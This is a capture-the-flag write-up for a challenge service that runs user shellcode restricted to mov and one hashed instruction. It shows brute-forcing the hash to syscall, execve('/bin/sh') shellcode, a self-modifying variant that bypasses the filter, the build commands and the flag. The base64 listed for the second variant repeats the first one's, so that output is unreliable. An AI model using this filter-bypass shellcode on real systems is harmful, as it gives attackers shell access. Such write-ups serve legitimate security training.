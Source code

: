 # Service

The [server.py](files/server.py) contains some backend that is reading a shellcode and executing it after some checks.

Connecting to the given host and port, it offers the service.

![](screenshots/1.png)

# Checks

The server is checking if the shellcode contains anything invalid. Only instructions starting with `mov` and some other instruction with a given hash is allowed.

```python
i.mnemonic.startswith("mov") or
sha256_hash(i.mnemonic) == "44b1bb13ee5a5d92ee3823110f16031c246a8f9c84c96abc3d9237de2532d18c"
```

The hash can be bruteforced by hashing all the available instructions.

```python
from hashlib import sha256
mnemonics = ["AAA", "AAD", "AAM", "AAS", "ADC", "ADCX", "ADD", "ADDPD", "ADDPS", "ADDSD", "ADDSS", "ADDSUBPD", "ADDSUBPS", "...", "SUB", "SUBPD", "SUBPS", "SUBSD", "SUBSS", "SWAPGS", "SYSCALL", "..."]

valid = "44b1bb13ee5a5d92ee3823110f16031c246a8f9c84c96abc3d9237de2532d18c"
pairs = [(m, sha256(m.encode()).hexdigest()) for m in (mnemonics + [i.lower() for i in mnemonics])] 
[p for p in pairs if p[1]==valid][0]
```

The instruction that is also allowed is `syscall`.

# Exploit

All we need is a simple shellcode that is only using `mov` and `syscall`. Example in [shellcode.asm](workdir/shellcode.asm).

```nasm
section .text
  global _start
    _start:
      mov rdx, 0x0
      mov rsi, 0x0
      mov rbx, '/bin/sh' 
      mov [rsp], rbx
      mov rdi, rsp
      mov al, 59
      syscall
```

```bash
nasm -f elf64 shellcode.asm -o shellcode.o && objcopy -O binary -j .text shellcode.o /dev/stdout | base64
```

```
ugAAAAC+AAAAAEi7L2Jpbi9zaABIiRwkSInnsDsPBQ==
```

![](screenshots/2.png)

# Flag

CQ24{Th3_l1F3's_f0aMy_5id3}

# Exploit without syscall

It is possible to write a code without `syscall`, because our shellcode is `RWE` mapped. Just write the instruction on the fly. Example in [shellcode_no_syscall.asm](workdir/shellcode_no_syscall.asm).

```nasm
section .text
  global _start
    _start:
	  mov rdx, 0x0
      mov rsi, 0x0
      mov rbx, '/bin/sh' 
      mov [rsp], rbx
      mov rdi, rsp
      mov al, 59
      mov r15, 0xCCCCCCCCCCCC050F ; syscall
      mov [rel $+7], r15
```

```bash
nasm -f elf64 shellcode_no_syscall.asm -o shellcode_no_syscall.o && objcopy -O binary -j .text shellcode_no_syscall.o /dev/stdout | base64
```

```
ugAAAAC+AAAAAEi7L2Jpbi9zaABIiRwkSInnsDsPBQ==
```



